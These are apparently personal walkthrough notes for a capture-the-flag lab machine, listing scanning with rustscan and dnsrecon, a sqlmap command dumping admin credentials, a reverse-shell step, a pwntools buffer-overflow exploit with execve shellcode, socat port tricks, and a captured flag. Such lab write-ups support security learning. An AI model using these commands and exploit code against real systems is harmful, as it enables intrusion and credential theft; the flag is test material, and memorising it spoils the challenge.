 1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
![[Pasted image 20230913121421.png]]
7) Get a reverse shell and look on /home/leak. Download it locally and exploit
```python3
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```
8) Expose the binary using socat and launch the exploit
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &amp;
```
![[Pasted image 20230913143408.png]]
9) Xor non fatto
```
Hello mate!  
First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!  
Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.  
Make sure those binaries are kept safe!  
To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.  
The ports are 5555 and 7777.  
Have fun and keep it safe!  
JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}  
Cheers - Alex
```
10) 
socat TCP6-LISTEN:8200,fork TCP6:[::ffff:127.0.0.1]:9200
